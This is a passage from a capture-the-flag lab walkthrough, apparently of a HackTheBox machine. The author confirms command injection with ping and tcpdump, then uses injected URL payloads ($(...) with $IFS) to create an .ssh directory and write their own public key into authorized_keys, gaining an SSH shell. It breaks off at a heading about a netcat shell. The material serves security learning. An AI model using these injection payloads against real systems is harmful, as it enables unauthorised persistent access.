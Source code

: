 
And I’d get a ping:

    
    
    root@kali# tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    10:16:12.333148 IP 10.10.10.209 > 10.10.14.6: ICMP echo request, id 3, seq 1, length 64
    10:16:12.333176 IP 10.10.14.6 > 10.10.10.209: ICMP echo reply, id 3, seq 1, length 64
    

#### Shell via SSH

It took a bit of playing around with single quotes again, but I got the
injection to write an SSH key to the current user, web (which I know from
`whoami` injection). I’m using a ed25519 key (because they are really short).
It turns out there is no `.ssh` directory in `/home/web`, so I’ll need to
create one with:

    
    
    http://10.10.14.6/$(mkdir$IFS'/home/web/.ssh')
    

Then I’ll write my key:

    
    
    http://10.10.14.6/$(echo$IFS'ssh-ed25519'$IFS'AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d'>'/home/web/.ssh/authorized_keys')
    

Now I’ll connect with that key and have an SSH shell:

    
    
    root@kali:/opt/privilege-escalation-awesome-scripts-suite/linPEAS# ssh -i ~/keys/ed25519_gen web@10.10.10.209
    Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-42-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
    
    76 updates can be installed immediately.
    36 of these updates are security updates.
    To see these additional updates run: apt list --upgradable
    
    
    The list of available updates is more than a week old.
    To check for new updates run: sudo apt update
    Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
    
    Your Hardware Enablement Stack (HWE) is supported until April 2025.
    Last login: Sun Nov  1 16:25:12 2020 from 10.10.14.6
    web@doctor:~$
    

#### Shell via nc.traditional
